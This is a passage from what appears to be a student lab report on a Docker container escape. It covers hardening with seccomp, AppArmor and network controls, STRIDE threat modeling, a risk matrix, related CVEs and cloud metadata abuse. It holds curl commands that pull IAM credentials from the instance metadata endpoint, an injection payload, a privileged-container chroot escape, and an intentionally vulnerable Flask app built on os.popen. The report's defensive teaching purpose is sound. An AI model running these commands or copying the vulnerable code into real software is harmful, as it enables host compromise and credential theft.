The \texttt{defaultAction: SCMP\_ACT\_ERRNO} causes any syscall not in the allow list to return \texttt{EPERM}. Removing \texttt{clone} with namespace creation flags prevents \texttt{unshare()} inside the container, blocking namespace escape techniques.

Apply to a container:

\begin{lstlisting}[language=bash]
docker run --security-opt seccomp=custom.json netdiag
\end{lstlisting}

\subsection{AppArmor Profile}

An AppArmor profile can explicitly deny access to the docker socket path, enforced at the Linux Security Module layer:

\begin{lstlisting}
profile netdiag-app flags=(attach_disconnected) {
  # ... other rules ...
  deny /var/run/docker.sock rwx,
}
\end{lstlisting}

Loading and applying the profile:

\begin{lstlisting}[language=bash]
apparmor_parser -r -W netdiag-app.profile
docker run --security-opt apparmor=netdiag-app netdiag
\end{lstlisting}

With this profile active, even UID 0 inside the container cannot open \texttt{docker.sock}. The LSM enforces the deny rule before the kernel honours the file permission check, making it independent of the \texttt{docker} group membership discussed in Section~11.7.

The \texttt{--security-opt no-new-privileges} flag prevents SUID binaries inside the container from elevating privileges, blocking \texttt{su} and \texttt{sudo} even if they are present in the image:

\begin{lstlisting}[language=bash]
docker run --security-opt no-new-privileges netdiag
\end{lstlisting}

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Layered hardening model: code fix, container configuration, kernel enforcement via seccomp and AppArmor}
\end{figure}

% ---

\section{Network Segmentation}

Network controls reduce the attacker's ability to establish and maintain a reverse shell even after achieving RCE. They do not prevent the docker.sock escape --- the socket uses \texttt{AF\_UNIX} IPC, not routed IP --- but they are effective against the reverse shell phase of the attack chain.

Creating an internal network with no external gateway:

\begin{lstlisting}[language=bash]
docker network create --internal app-net
docker run --network app-net netdiag
\end{lstlisting}

The \texttt{--internal} flag creates a network with no default gateway. Outbound TCP connections to external addresses fail at the kernel routing level. The reverse shell \texttt{connect()} call to the attacker's IP returns \texttt{ENETUNREACH}.

iptables-based egress filtering as an alternative:

\begin{lstlisting}[language=bash]
iptables -I FORWARD \
    -s 172.17.0.0/16 \
    -d 192.168.98.0/24 \
    -j DROP
\end{lstlisting}

This rule drops all forwarded packets from the container subnet to the attacker's LAN segment, blocking the reverse shell at the host firewall layer without changing the container's network configuration.

Service isolation using separate networks in a Compose deployment:

\begin{lstlisting}
networks:
  frontend:
  backend:

services:
  app:
    networks:
      - frontend
  db:
    networks:
      - backend
\end{lstlisting}

A compromised \texttt{app} container has no route to \texttt{db} because the two services share no network. Lateral movement between containers requires a network path that this configuration does not provide.

Network segmentation is a containment control. It limits what an attacker can do after achieving RCE but does not address the root causes: the command injection vulnerability or the socket mount misconfiguration. It is most valuable as part of a layered defence where the primary vulnerabilities have also been addressed.
\chapter{Threat Modeling}

\section{STRIDE Analysis of the Lab Environment}

STRIDE is a threat modeling framework developed at Microsoft that categorizes threats into six types: Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, and Elevation of Privilege. Applied to the lab environment, STRIDE provides a structured taxonomy for reasoning about which components are vulnerable to which threat categories and why.

The components in scope are: the NetDiag Flask application, the Docker daemon (\texttt{dockerd}), the \texttt{docker.sock} Unix socket, the host operating system, and the container runtime.

\begin{center}
\begin{tabular}{p{1.8cm}p{3cm}p{2.5cm}p{5.5cm}}
\hline
\textbf{Threat} & \textbf{Definition} & \textbf{Component} & \textbf{Manifestation in Lab} \\
\hline
Spoofing & Impersonate another identity & Docker daemon & Attacker impersonates a legitimate Docker client via socket --- the API has no caller authentication \\
Tampering & Modify data or code & Host filesystem & \texttt{echo pwned > /tmp/escaped.txt} writes to the host filesystem from inside a container \\
Repudiation & Deny performing an action & Flask app & Default Flask dev server produces no structured access log --- injection requests leave no app-level record \\
Information Disclosure & Expose data to unauthorized party & Container env, host FS & \texttt{docker inspect} exposes env-var secrets; \texttt{-v /:/hostfs} makes the entire host filesystem readable \\
Denial of Service & Disrupt availability & Host resources & No cgroup limits on the container --- a fork bomb or memory exhaustion originating inside the container affects the host directly \\
Elevation of Privilege & Gain unauthorized privilege & docker.sock $\rightarrow$ host root & Container UID 0 $\rightarrow$ socket API $\rightarrow$ privileged container spawn $\rightarrow$ host root operations \\
\hline
\end{tabular}
\end{center}

\subsection{Most Critical Threat: Elevation of Privilege}

The entire attack chain is a privilege escalation sequence. The attacker begins as an anonymous HTTP client with no credentials and ends with the ability to write arbitrary files to the host filesystem and spawn privileged containers. Every intermediate step --- command injection, reverse shell, Docker CLI installation, escape container launch --- exists to advance this escalation. Elevation of Privilege is not one threat among several in this environment; it is the destination that all other threats serve.

\subsection{Most Overlooked Threat: Repudiation}

Flask's built-in development server does not produce structured access logs by default. The \texttt{WERKZEUG\_RUN\_MAIN} output that appears on the terminal is not persisted to a file and is not formatted for forensic query. An attacker who sends dozens of injection probes followed by a successful reverse shell leaves no application-layer record of those requests. The only log evidence available without additional instrumentation is at the network layer (\texttt{netstat}/\texttt{ss}) or the kernel layer (\texttt{auditd}). This makes post-incident attribution and timeline reconstruction significantly harder.

\subsection{Per-Component STRIDE Breakdown}

\textbf{NetDiag Flask application}:
\begin{itemize}
    \item Tampering: injected commands modify system state (files created, processes spawned).
    \item Information Disclosure: command output is returned directly in the HTTP response body --- the attacker reads arbitrary command results via the browser.
    \item Repudiation: no structured logging means injection activity cannot be proven from app records alone.
    \item Elevation of Privilege: \texttt{os.popen()} executes as UID 0, granting the attacker root-equivalent execution immediately.
\end{itemize}

\textbf{Docker daemon (\texttt{dockerd})}:
\begin{itemize}
    \item Spoofing: the daemon socket accepts any HTTP-conformant request from a process with socket access --- there is no authentication of the caller.
    \item Tampering: the API allows creating containers that modify the host (volume mounts, privileged mode, capability grants).
    \item Elevation of Privilege: the daemon runs as UID 0 on the host. All API calls --- regardless of which process issued them --- execute with root privilege.
\end{itemize}

\textbf{\texttt{docker.sock}}:
\begin{itemize}
    \item Spoofing: any process that opens the socket is treated as a legitimate Docker client. File permissions are the only access control.
    \item Elevation of Privilege: access to the socket is root-equivalent. No additional escalation step is needed once the socket is reachable.
\end{itemize}

\textbf{Host OS}:
\begin{itemize}
    \item Tampering: post-escape, the attacker can write to any path on the host filesystem.
    \item Information Disclosure: the entire host filesystem becomes readable via the \texttt{-v /:/hostfs} volume mount used in the escape step.
    \item Denial of Service: without cgroup resource limits, container processes compete for host CPU and memory with no throttle.
\end{itemize}

The STRIDE categories are not mutually exclusive in practice. During the attack chain, multiple threat categories trigger in sequence: Information Disclosure (command output returned in HTTP response) enables Elevation of Privilege (root shell), which enables Tampering (host file write) and further Information Disclosure (host filesystem readable via mount). The model is most useful as a checklist for ensuring no threat category is left unexamined, not as a strictly sequential framework.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{STRIDE threat mapping across lab components: Flask app, Docker daemon, docker.sock, and host OS}
\end{figure}

% ---

\section{Attack Surface Mapping}

The attack surface of a system is the set of points where an attacker can attempt to enter or extract data. Mapping the attack surface in this lab identifies where controls can be applied and where trust boundaries are crossed without enforcement.

\subsection{Entry Points}

\begin{itemize}
    \item \texttt{http://192.168.98.4:5000/ping} --- an unauthenticated HTTP endpoint reachable from any host on the same network segment. This is the initial foothold.
    \item \texttt{/var/run/docker.sock} --- a Unix socket reachable from inside the container because it is bind-mounted at the same path. This is the pivot point from container to host.
    \item The Docker REST API --- accessible via the socket from any process that can open it. No network exposure is required; the API is fully reachable via the mounted socket.
\end{itemize}

\subsection{Trust Boundaries}

Four trust boundaries exist in this environment, and each is either unenforced or insufficiently enforced:

\begin{itemize}
    \item \textbf{Network to Flask app}: no authentication, no TLS, no rate limiting. Any host on the network can make arbitrary requests.
    \item \textbf{Flask app to OS shell}: \texttt{os.popen()} passes user-controlled input to \texttt{/bin/sh -c} without sanitization. The boundary between application code and OS execution is open.
    \item \textbf{Container to host daemon}: the docker.sock bind-mount dissolves the container-host isolation boundary. A process inside the container can communicate with the host daemon as if it were a native host process.
    \item \textbf{Docker API to host kernel}: the daemon executes all API requests as UID 0. There is no privilege separation between the API caller and root-level kernel operations.
\end{itemize}

\subsection{Data Flow with Trust Boundary Crossings}

\begin{lstlisting}
Attacker HTTP request
  -> [Boundary: network to app, unenforced]
  -> Flask view function
  -> [Boundary: app to OS shell, unenforced via os.popen()]
  -> /bin/sh as UID 0
  -> [Boundary: container to host, dissolved via docker.sock mount]
  -> dockerd REST API
  -> [Boundary: API to kernel, all calls execute as root]
  -> runc -> privileged container -> host filesystem
\end{lstlisting}

\subsection{Attack Surface Component Table}

\begin{center}
\begin{tabular}{p{3.5cm}p{3.5cm}p{5cm}}
\hline
\textbf{Surface} & \textbf{Exposure} & \textbf{Reduction Possible} \\
\hline
\texttt{/ping} endpoint & Full network (port 5000) & Authentication, input validation, subprocess fix \\
\texttt{os.popen()} & Any HTTP client & Replace with \texttt{subprocess} list form \\
\texttt{docker.sock} & Any UID 0 process in container & Remove bind-mount or use socket proxy \\
Docker REST API & Any socket client & Socket proxy, rootless Docker \\
Base image (\texttt{python:3.11-slim}) & Bash and apt-get present & Distroless base, non-root user \\
Host filesystem & Readable via \texttt{-v /:/hostfs} post-escape & Rootless Docker, read-only mounts \\
\hline
\end{tabular}
\end{center}

\subsection{Minimal Attack Surface Configuration}

With all mitigations from Chapter 11 applied simultaneously:

\begin{itemize}
    \item No docker.sock mount --- escape vector eliminated.
    \item Non-root container user --- socket access denied by file permissions even if mount were present.
    \item \texttt{subprocess} list form with input validation --- RCE eliminated at code level.
    \item Read-only filesystem with \texttt{noexec tmpfs} --- tool installation and payload execution blocked.
    \item Custom seccomp and AppArmor profiles --- socket access denied at kernel LSM layer.
    \item Internal-only Docker network --- reverse shell TCP connection blocked at routing layer.
\end{itemize}

With this configuration, RCE remains theoretically possible if an injection vulnerability is reintroduced in future code, but lateral movement to the host is blocked at multiple independent layers.

% ---

\section{Risk Matrix}

Risk is quantified as Likelihood $\times$ Impact, each scored on a scale of 1 to 5. Likelihood factors include exploitability, authentication requirements, and whether standard tooling is sufficient. Impact factors cover confidentiality, integrity, availability, and the blast radius of a successful exploitation.

\begin{center}
\begin{tabular}{p{4.5cm}p{1.5cm}p{1.5cm}p{1.5cm}p{2cm}}
\hline
\textbf{Risk} & \textbf{Likelihood} & \textbf{Impact} & \textbf{Score} & \textbf{Priority} \\
\hline
docker.sock escape to host root & 5 & 5 & 25 & Critical \\
Command injection via \texttt{/ping} & 5 & 4 & 20 & Critical \\
Secret exposure via \texttt{docker inspect} & 4 & 4 & 16 & High \\
Persistence via host filesystem write & 3 & 5 & 15 & High \\
No TLS on Docker API & 2 & 5 & 10 & Medium \\
DoS via no cgroup limits & 3 & 4 & 12 & Medium \\
Lateral movement to other containers & 3 & 4 & 12 & Medium \\
Supply chain risk (unpinned base image) & 2 & 4 & 8 & Medium \\
Repudiation (no structured logging) & 4 & 2 & 8 & Low-Medium \\
\hline
\end{tabular}
\end{center}

\subsection{Top Risk: docker.sock Escape (25/25)}

The docker.sock escape scores the maximum possible risk value. Its likelihood is 5 because: the attack requires no unpatched CVE, no special tooling beyond standard Linux utilities, and no authentication to the Docker API. Its impact is 5 because successful exploitation grants full host root access --- arbitrary file read/write, ability to modify all containers on the host, and potential for persistent backdoor installation.

This score does not represent a theoretical maximum; it represents a deterministic outcome. Given the two misconfigurations present in the lab environment, the escape is not probabilistic --- it is guaranteed if an attacker achieves the initial foothold.

\subsection{Mitigation Impact on Top Risks}

\begin{itemize}
    \item Fixing \texttt{os.popen()} with \texttt{subprocess} list form drops the command injection likelihood from 5 to 1. Without code execution, the attacker cannot reach the socket regardless of whether it is mounted.
    \item Removing the docker.sock mount drops the escape risk score from 25 to 0. The vector is eliminated rather than reduced.
    \item Applying both mitigations simultaneously breaks the attack chain at two independent points. An attacker who bypasses the code fix (e.g., via a different injection vector) is still blocked by the absent socket mount. An attacker who somehow reaches the socket without RCE (e.g., via a separate container breakout) cannot escalate further without daemon access.
\end{itemize}

The risk matrix ordering also determines mitigation priority. Addressing the two Critical items provides more risk reduction than addressing all Medium items combined.
\chapter{Comparison with Real-World Incidents}

\section{Similar CVEs and Documented Escapes}

The attack demonstrated in this project --- gaining host root from inside a container without any kernel exploit --- is not a contrived academic scenario. Variations of the same pattern appear across multiple documented CVEs and real-world incidents. The comparison below positions the lab's attack chain relative to these incidents, clarifying both the similarities and what distinguishes each case.

\subsection{CVE-2019-5736 --- runc Container Escape}

\textbf{Affected versions}: runc $<$ 1.0-rc6, Docker $<$ 18.09.2.

The attacker requires root inside the container, which they have in the lab scenario via the command injection vulnerability. From that position, the attacker opens \texttt{/proc/self/exe} --- a symlink that, in the context of \texttt{docker exec}, resolves to the host's runc binary. By holding that file descriptor open and repeatedly overwriting the binary before execution completes, the attacker replaces the runc binary on the host with a payload. The next \texttt{docker exec} call on any container triggers the payload, executing arbitrary code as root on the host.

The similarity to the lab is direct: root inside a container leads to host code execution. The mechanism is different. CVE-2019-5736 exploits a race condition in how runc resolves \texttt{/proc/self/exe} --- it is a kernel-level timing vulnerability that required coordinated disclosure and a patched runc release. The lab escape requires no race condition, no specific kernel version, and no CVE. It works on any default Docker installation with the socket mounted.

The patch added file descriptor protections in runc that prevent the \texttt{/proc/self/exe} overwrite from succeeding, but this required changes to the container runtime itself.

\subsection{CVE-2020-15257 --- containerd Shim API Exposure}

\textbf{Affected versions}: containerd $<$ 1.3.9, containerd $<$ 1.4.3.

The containerd shim process communicates with containers using an abstract Unix socket. Abstract sockets (those whose names begin with a null byte) are not bound to the filesystem --- they exist only in the kernel's abstract namespace and are accessible to any process that shares the same network namespace. Containers launched with \texttt{--network=host} share the host's network namespace, which includes access to abstract sockets. An attacker inside such a container can connect to the containerd shim API and use it to spawn a process on the host.

The structural parallel to the lab is strong: an IPC channel (socket) that is accessible from inside the container leads to host daemon access, which enables privilege escalation. The difference is the precondition. CVE-2020-15257 requires \texttt{--network=host} and an unpatched containerd version. The lab requires only a docker.sock bind-mount, which is a far more common configuration than \texttt{--network=host} in production deployments.

\subsection{CVE-2022-0492 --- cgroupv1 release\_agent Escape}

\textbf{Affected versions}: Linux kernel $<$ 5.17 with cgroupv1 enabled.

In cgroupv1, the \texttt{release\_agent} file specifies a program to execute when a cgroup becomes empty. If a container has \texttt{CAP\_DAC\_OVERRIDE} (which grants write access to files regardless of permission bits) and the host uses cgroupv1, an attacker can write a path to a controlled script into \texttt{release\_agent} and trigger it by causing a cgroup to empty. The kernel executes the \texttt{release\_agent} as root in the host namespace.

This is a true kernel exploit: it depends on a specific kernel version range, a specific cgroup subsystem version, and a specific capability being present in the container. The lab escape has none of these dependencies. It is a misconfiguration exploit that works identically across kernel versions and requires no capability beyond UID 0 access to the mounted socket.

\subsection{Tesla Kubernetes Cryptojacking (2018)}

This incident was not caused by a CVE. The Tesla engineering team had deployed a Kubernetes cluster with the dashboard exposed to the internet with no authentication required. An attacker accessed the dashboard, retrieved secrets from Kubernetes pods --- including AWS IAM credentials stored in environment variables --- and used those credentials to provision EC2 instances for cryptocurrency mining.

The parallel to the lab is structural rather than technical. In both cases, an unauthenticated control-plane API (Kubernetes dashboard in the Tesla incident, the Docker REST API via \texttt{docker.sock} in the lab) provides an attacker with full administrative access to the underlying infrastructure. Authentication on the control plane is the missing control in both cases. The Tesla incident demonstrates that this class of misconfiguration affects production systems at significant scale, not only lab environments.

\subsection{Comparison Summary}

\begin{center}
\begin{tabular}{p{3.5cm}p{2cm}p{2cm}p{2.5cm}p{2.5cm}}
\hline
\textbf{Incident / CVE} & \textbf{Requires CVE} & \textbf{Auth Needed} & \textbf{Blast Radius} & \textbf{Similarity to Lab} \\
\hline
This lab & No & No & Full host & --- \\
CVE-2019-5736 & Yes & No (root in container) & Full host & High \\
CVE-2020-15257 & Yes & No & Host process exec & Medium \\
CVE-2022-0492 & Yes & Partial (\texttt{CAP\_DAC\_OVERRIDE}) & Full host & Medium \\
Tesla K8s breach & No & No & Full cloud account & High \\
\hline
\end{tabular}
\end{center}

The table makes one pattern clear: the most impactful incidents in this category do not require an unpatched CVE. The Tesla breach and the lab attack both achieve full compromise through configuration choices that were explicitly made by the teams deploying the systems. Defenders who focus exclusively on CVE patch cycles miss this entire class of threat.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Attack path comparison: lab escape vs CVE-2019-5736 vs CVE-2020-15257 vs Tesla K8s breach}
\end{figure}

% ---

\section{Docker in CI/CD Pipelines --- Why This Pattern Is Common}

The docker.sock bind-mount is not an exotic misconfiguration that only an inexperienced developer would introduce. It is a documented, widely recommended pattern in CI/CD tooling, which explains why it appears in production environments with regularity.

\subsection{The CI/CD Requirement}

A build pipeline that produces Docker images needs daemon access. Building an image requires \texttt{docker build}; pushing it to a registry requires \texttt{docker push}; deploying it requires \texttt{docker run}. When the pipeline agent itself runs inside a container --- as is standard in Jenkins, GitLab CI, and GitHub Actions self-hosted runners --- the agent needs a way to reach the Docker daemon.

The most direct solution:

\begin{lstlisting}[language=bash]
docker run \
    -v /var/run/docker.sock:/var/run/docker.sock \
    jenkins/jenkins
\end{lstlisting}

The Jenkins agent running inside the container can now run \texttt{docker build} and \texttt{docker push} because it has access to the host daemon socket. The official Jenkins documentation describes this pattern. GitLab CI documentation offers the socket binding as an alternative to true Docker-in-Docker:

\begin{lstlisting}
variables:
  DOCKER_HOST: unix:///var/run/docker.sock
\end{lstlisting}

The socket binding appears in official documentation for major CI platforms as a supported and, in some cases, recommended approach. Developers who follow official documentation to implement CI/CD Docker builds will produce this configuration without awareness that they are granting host root access to every build step.

\subsection{Why Teams Accept the Risk}

Several factors contribute to the pattern persisting in production:

\begin{itemize}
    \item \textbf{Official endorsement}: documentation from Docker, Jenkins, and GitLab presents socket binding as a standard pattern, not a security exception requiring justification.
    \item \textbf{Perceived equivalence}: the alternative to socket binding is true Docker-in-Docker, which requires \texttt{--privileged} mode on the outer container. Both approaches are dangerous; teams frequently pick socket binding because it is simpler, without recognizing that both choices expose the host.
    \item \textbf{Operational complexity of alternatives}: the socket proxy pattern (Section 11.2) requires maintaining an additional service with its own configuration. Under time pressure, teams skip it.
    \item \textbf{Mental model mismatch}: developers see a volume mount (\texttt{-v}) and think of it as a file share. They do not recognize that mounting a Unix socket is different in kind from mounting a directory --- it grants the container the ability to issue commands to the host daemon as root.
\end{itemize}

\subsection{Blast Radius in the CI/CD Context}

A compromised build step with docker.sock access has capabilities that extend well beyond the immediate host:

\begin{itemize}
    \item A malicious build step can modify other containers running on the same CI host, including containers belonging to other build jobs and other teams.
    \item The build step can inject a malicious layer into the image being built. That layer is then distributed to every deployment environment that pulls the image. This is a supply chain attack: one compromised build produces poisoned artifacts that propagate downstream.
    \item \texttt{docker inspect} on other running containers exposes environment variables. Build jobs for other services running on the same CI host may have database credentials, API keys, and service tokens in their environment --- all readable via the socket.
\end{itemize}

\subsection{Safer CI/CD Alternatives}

Three alternatives eliminate the socket exposure in CI/CD:

\begin{itemize}
    \item \textbf{Kaniko}: builds Docker images from a Dockerfile without access to the Docker daemon. Runs as an unprivileged container; no socket required.
    \item \textbf{Buildah}: a daemonless OCI image builder. Like Kaniko, it can produce container images without a running Docker daemon and without a socket bind-mount.
    \item \textbf{Rootless Docker-in-Docker}: runs a nested Docker daemon as an unprivileged user using user namespaces. Removes the host socket from the picture; the inner daemon has no access to the outer host.
\end{itemize}

% ---

\section{Cloud Metadata Abuse as a Related Vector}

The lab demonstrates an escape from a container to the host operating system. In a cloud deployment, the same starting point --- container-level RCE --- can lead to a much broader compromise via the cloud metadata service. This section documents that extension.

\subsection{The Cloud Metadata Service}

Cloud providers make instance metadata available to any process running on a virtual machine via an HTTP endpoint at the link-local address \texttt{169.254.169.254}. This endpoint is reachable without credentials from any process on the VM --- including processes running inside containers, because Docker's default bridge network allows outbound connections to this address.

The metadata service provides: IAM role credentials with associated access keys and session tokens, instance identity documents, network configuration, and user-data scripts passed at launch time.

\subsection{AWS IMDSv1 --- Vulnerable}

\begin{lstlisting}[language=bash]
# From inside a container with outbound network access
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Returns: role name

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
# Returns: AccessKeyId, SecretAccessKey, Token
\end{lstlisting}

These credentials have the permissions of the EC2 instance role. Depending on the IAM configuration, an attacker who retrieves them may be able to read from S3 buckets, describe EC2 instances, access RDS databases, invoke Lambda functions, or enumerate other cloud resources --- all from a single \texttt{curl} command inside the container.

\subsection{Attack Extension from the Lab}

The extension of the lab attack chain into a cloud environment proceeds as follows. First, the attacker achieves RCE via command injection inside the container. Second, the container has outbound network access through the default Docker bridge. Third, the attacker issues a \texttt{curl} request to \texttt{169.254.169.254} directly from the container --- no escape to the host is required for this step. Fourth, the metadata service returns the EC2 instance role credentials. Fifth, the attacker uses those credentials from any internet-connected machine to access cloud resources in the victim's AWS account.

This means the docker.sock escape demonstrated in the lab is not even the most impactful attack available from the initial container RCE foothold in a cloud environment. The metadata service provides a direct path to cloud-wide lateral movement without requiring any host escape at all.

\subsection{AWS IMDSv2 --- Mitigated}

AWS IMDSv2 introduces a required PUT-before-GET flow:

\begin{lstlisting}[language=bash]
TOKEN=$(curl -s -X PUT \
    -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
    http://169.254.169.254/latest/api/token)

curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
    http://169.254.169.254/latest/meta-data/iam/security-credentials/
\end{lstlisting}

The PUT request to obtain a token cannot be executed via Server-Side Request Forgery (SSRF) in most configurations because SSRF attacks typically cannot follow redirects or send custom HTTP methods. A simple \texttt{curl} inside a container can still complete the two-step flow, but the TTL-bound token limits the window of credential use.

IMDSv2 enforcement is a configuration choice. Instances must be explicitly set to require IMDSv2; instances created with older configurations or infrastructure-as-code templates may still use IMDSv1.

\subsection{Other Cloud Providers}

GCP exposes metadata at \texttt{http://metadata.google.internal/computeMetadata/v1/} and requires a \texttt{Metadata-Flavor: Google} header, which prevents simple browser-based SSRF but does not prevent access from inside a container with a direct network path. Azure's Instance Metadata Service at \texttt{http://169.254.169.254/metadata/instance} requires a \texttt{Metadata: true} header and uses IMDSv2-equivalent token flows.

\subsection{Mitigations}

\begin{itemize}
    \item Enforce IMDSv2 on all EC2 instances via instance metadata options or a Service Control Policy.
    \item Block container access to the metadata service using iptables rules that drop packets from the container subnet destined for \texttt{169.254.169.254}:
\end{itemize}

\begin{lstlisting}[language=bash]
iptables -I DOCKER-USER \
    -s 172.17.0.0/16 \
    -d 169.254.169.254 \
    -j DROP
\end{lstlisting}

\begin{itemize}
    \item Apply the principle of least privilege to EC2 instance roles --- roles should have only the permissions the instance itself needs, not the permissions of the workloads running on it.
\end{itemize}
\chapter{Conclusion}

\section{What Was Demonstrated}

This project demonstrated a complete, end-to-end container escape chain using two misconfigurations that are present in real-world deployments. No kernel exploit was used. No CVE was triggered. No tooling beyond standard Linux utilities was required.

The chain rested on two independent vulnerabilities. The first was an OS command injection flaw (CWE-78): the \texttt{/ping} route passed the user-supplied \texttt{host} parameter directly to \texttt{os.popen()}, which invoked \texttt{/bin/sh -c} with the concatenated string. The semicolon in \texttt{8.8.8.8;id} was decoded by Flask from its URL-encoded form and interpreted by the shell as a command separator, resulting in \texttt{id} executing as UID 0 inside the container. The second was Docker socket exposure: the \texttt{-v /var/run/docker.sock:/var/run/docker.sock} bind-mount gave any process inside the container direct access to the host Docker daemon API with no authentication.

The attack steps executed in sequence were as follows. RCE was confirmed by observing \texttt{uid=0(root)} in the HTTP response to \texttt{/ping?host=8.8.8.8;id}. A reverse Bash TCP shell was delivered via a URL-encoded payload, establishing an interactive session as root inside the container on the attacker's listener. The container was enumerated and the Docker socket confirmed present and accessible via \texttt{ls -la /var/run/docker.sock}. The Docker CLI was installed inside the container using \texttt{apt-get}. A new privileged container was spawned via the host daemon with \texttt{-v /:/hostfs}, making the entire host filesystem available inside the escape container. The command \texttt{chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'} wrote a file to the real host filesystem, confirming complete host compromise.

Detection was demonstrated immediately after. The escape artifact at \texttt{/tmp/escaped.txt} was found on the host. \texttt{docker inspect} on the running container revealed the \texttt{docker.sock} bind-mount in the \texttt{Mounts} array. An \texttt{auditd} file watch rule was established on the socket path for future access logging. \texttt{lsof} confirmed active socket connections from non-daemon processes.

The entire chain is reproducible on any default Docker installation where both misconfigurations are present. The reproducibility is the point: this is not an edge case or a race condition. It is a deterministic consequence of two specific configuration choices.

% ---

\section{Key Takeaways}

\subsection{Misconfiguration Outpaces CVEs as a Practical Threat}

The escape chain required zero unpatched vulnerabilities. Both enabling conditions --- the command injection and the socket mount --- were introduced by explicit configuration choices, not by software defects outside the deployer's control. The real-world incidents in Chapter 13 confirm that this pattern generalises: the Tesla Kubernetes breach and the Docker Hub poisoned images incident were both misconfiguration exploits, not CVE exploits. Security posture that focuses exclusively on patch cycles misses this entire attack class. Auditing configuration is as important as applying patches.

\subsection{A Container Is Not a Security Boundary by Default}

Linux namespaces provide isolation of visibility: a containerised process cannot see host processes, host filesystems, or host network interfaces unless those resources are explicitly shared. Namespaces do not provide isolation of privilege. A container running as UID 0 with access to the Docker socket is not contained --- it has a direct path to host root via the daemon API. The mental model of ``running in Docker'' as a security guarantee is incorrect without explicit hardening. Containerisation is an operational tool; security requires treating it as one layer in a defence-in-depth stack, not as a boundary.

\subsection{Defence-in-Depth Is Not Optional}

Fixing the code eliminates RCE but leaves the socket mount as a standing misconfiguration accessible to any future vulnerability in the application. Removing the socket mount eliminates the escape but leaves the application exploitable for RCE that is contained within the container. Both fixes together break the chain at two independent points. The full hardening posture from Chapter 11 --- code fix, socket removal, non-root container user, seccomp profile, AppArmor profile, read-only filesystem, and network controls --- provides redundant layers such that no single future mistake re-enables the full chain.

\subsection{Root Inside Containers Is Dangerous}

UID 0 without user namespace remapping is UID 0 on the host kernel. Capabilities, filesystem access, and network operations available to root inside the container are host-level operations constrained only by what the container runtime explicitly restricts. The \texttt{USER} directive in a Dockerfile is a security control, not an aesthetic choice. Default Docker images run as root; explicit non-root configuration is required. The non-root user fix in Section 11.7 blocked the \texttt{apt-get} install step and the socket access in a single change.

\subsection{Detection Must Be Proactive}

Every detection technique demonstrated in Chapter 10 has a reactive and a proactive mode. \texttt{auditd} deployed after the attack finds no historical records; deployed before the attack, it produces a full timeline. \texttt{docker inspect} run as a post-incident audit finds the misconfiguration; integrated into a CI/CD pipeline, it prevents the misconfiguration from reaching production. Falco configured at container start alerts on socket mounts before any exploitation occurs. The difference between detecting an attack and forensically reconstructing one after the fact is whether detection infrastructure was deployed before the attacker arrived.

\subsection{The Daemon Is the Privilege Boundary}

All Docker security ultimately depends on controlling who can reach \texttt{dockerd}. Socket access is daemon access; daemon access is host root. There is no privilege escalation required between those steps --- the API itself executes as root. This is why Rootless Docker and Podman represent architectural improvements rather than just configuration options: they eliminate the privileged daemon, removing the target that socket access was used to reach.

% ---

\section{Further Reading}

\subsection*{Container Security Standards}
\begin{itemize}
    \item CIS Docker Benchmark --- Center for Internet Security. Explicitly flags \texttt{docker.sock} mounts as a critical finding.
    \item NIST SP 800-190: Application Container Security Guide.
    \item OWASP Docker Security Cheat Sheet.
\end{itemize}

\subsection*{CVEs Referenced}
\begin{itemize}
    \item CVE-2019-5736: runc \texttt{/proc/self/exe} container escape.
    \item CVE-2020-15257: containerd abstract socket exposure.
    \item CVE-2022-0492: cgroupv1 \texttt{release\_agent} privilege escalation.
\end{itemize}

\subsection*{Tools}
\begin{itemize}
    \item Falco (CNCF): \texttt{falco.org} --- runtime syscall-level security monitoring.
    \item Trivy (Aqua Security): \texttt{aquasecurity.github.io/trivy} --- container image vulnerability scanning.
    \item Kaniko (Google): \texttt{github.com/GoogleContainerTools/kaniko} --- daemonless Docker image builds for CI.
    \item Docker Socket Proxy (Tecnativa): \texttt{github.com/Tecnativa/docker-socket-proxy} --- scoped API proxy.
    \item Podman: \texttt{podman.io} --- daemonless, rootless container runtime.
\end{itemize}

\subsection*{Kernel and Runtime References}
\begin{itemize}
    \item \texttt{namespaces(7)} Linux man page --- authoritative reference on namespace types and semantics.
    \item \texttt{capabilities(7)} Linux man page --- complete Linux capability list and effects.
    \item \texttt{seccomp(2)} Linux man page --- seccomp filter mode and BPF rule structure.
    \item OCI Runtime Specification: \texttt{github.com/opencontainers/runtime-spec} --- defines the container lifecycle and configuration schema.
\end{itemize}

\subsection*{Incident References}
\begin{itemize}
    \item Tesla Kubernetes breach (2018) --- RedLock Cloud Security Intelligence report.
    \item Docker Hub malicious image campaign (2018) --- Docker official post-incident disclosure.
\end{itemize}

\subsection*{Books and Whitepapers}
\begin{itemize}
    \item Liz Rice, \textit{Container Security}. O'Reilly Media, 2020.
    \item NCC Group, ``Understanding and Hardening Linux Containers'' --- technical whitepaper covering namespace internals, capability analysis, and container runtime security.
\end{itemize}
\clearpage
\appendix

\chapter{Full Source Code Listings}

\subsection{app.py --- Vulnerable Flask Application}

\begin{lstlisting}[language=Python, caption={app.py --- NetDiag vulnerable web application}]
from flask import Flask, request, render_template
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html', result=None)

@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    result = os.popen("ping -c 3 " + host).read()
    return render_template('index.html', result=result)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
\end{lstlisting}

\vspace{0.5cm}

\subsection{Dockerfile --- NetDiag Container Image}

\begin{lstlisting}[language=bash, caption={Dockerfile --- builds the NetDiag vulnerable image}]
FROM python:3.11-slim
WORKDIR /app
COPY . .
RUN pip install flask
EXPOSE 5000
CMD ["python3", "app.py"]
\end{lstlisting}

\vspace{0.5cm}

\subsection{setup.sh --- Victim Machine Setup Script}

\begin{lstlisting}[language=bash, caption={setup.sh --- builds and runs the vulnerable container on VM1}]
#!/bin/bash
# =============================================================
#  setup.sh  --  Victim Machine (VM1 | 192.168.98.4)
#  Docker Escape Demo | GTU-SET Semester 4
